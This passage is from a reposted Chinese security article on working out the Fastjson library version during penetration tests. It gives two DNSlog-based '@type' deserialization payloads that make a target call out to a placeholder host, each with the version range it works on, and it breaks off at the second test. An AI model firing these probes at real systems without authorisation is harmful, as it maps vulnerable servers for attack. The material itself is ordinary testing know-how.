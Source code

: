 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247487676&idx=1&sn=9f81c26d7c28f870920d7b4a352a8d8d

#  精选3：Fastjson反序列化漏洞区分版本号的方法大集合  
 希潭实验室   2025-07-22 00:33  
  
 Part1 前言   
  
大家好，我是ABC_123  
。欢迎大家关注公众号"希水涵精选录"。  
"希潭实验室"是ABC_123运营的第一个公众号，只发ABC_123本人的原创技术文章；  
而  
"希水涵精选录  
"  
是ABC_123运营的第二个公众号，  
专注于转载精心筛选的高质量技术文章  
。  
ABC_123会从海量的技术文章中摘出精品，  
把真正有价值、有干货的内容推荐给大家  
，同时也欢迎大家积极投稿给我，  
一起把好文章分享给更多人！  
  
转载声明：  
此篇文章的原创作者是f0ng，在此感谢。作者的公众号如下：  
  
  
每次测试遇到fastjson无法定位版本，部分文章里的payload也没有准确的版本范围，抽空对payload做了个测试，这里记录下  
使用常见的payload对fastjson版本进行测试，方便遇到fastjson进行较小范围的版本判断。本篇文章记录下常见的payload对于一些版本的判断测试。  
##   
##  Part2 通过dnslog判断版本   
  
测试的一切payload均采用fastjson的默认配置，本次测试只用到了
```
com.alibaba.fastjson.JSON.parse()
```

  
函数。  
  
#### 测试语句1：【fastjson>=1.2.37】  

```
{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;, {&#34;@type&#34;: &#34;java.net.URL&#34;, &#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}}&#34;&#34;}
```

#### 实验结论：可用范围1.2.37-1.2.83，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句2：  
【fastjson>=1.2.37】  

```
{{&#34;@type&#34;:&#34;java.net.URL&#34;,&#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}:0
```
